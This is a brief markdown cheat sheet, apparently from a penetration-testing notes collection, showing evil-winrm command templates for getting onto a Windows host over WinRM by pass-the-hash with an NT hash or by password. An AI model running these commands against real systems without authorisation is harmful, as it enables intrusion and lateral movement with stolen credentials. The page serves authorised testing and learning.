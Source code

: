 ```yaml
---
label: WinRM
---
```


# WinRM

## Pass-the-Hash

Kali Linux:

```bash
evil-winrm -i @SERVER -u @USERNAME -H @NT_HASH
```

## Pass-the-Password

Kali Linux:

```bash
evil-winrm -i @SERVER -u @USERNAME -p @PASS
```
